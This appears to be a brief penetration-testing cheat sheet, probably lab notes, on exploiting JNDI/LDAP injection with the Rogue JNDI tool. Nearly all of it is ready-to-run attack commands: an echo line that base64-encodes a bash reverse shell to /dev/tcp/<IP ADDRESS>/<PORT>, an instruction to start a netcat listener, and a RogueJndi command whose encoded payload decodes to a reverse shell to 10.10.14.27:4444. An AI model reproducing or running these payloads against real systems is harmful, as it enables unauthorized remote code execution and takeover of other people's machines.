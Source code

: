 # LDAP Exploitation

## Using Rogue JNDI

### Bash reverse shell

Base 64 encoded reverse shell payload:

```
echo "bash -c bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1" | base64
```

Start a netcat listener on the PORT.

Use base 64 encoded payload for Rogue JNDI&#x20;

```
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ0IDA+JjEiCg==}|{base64,-d}|{bash,-i}" --hostname "10.129.56.33"
```





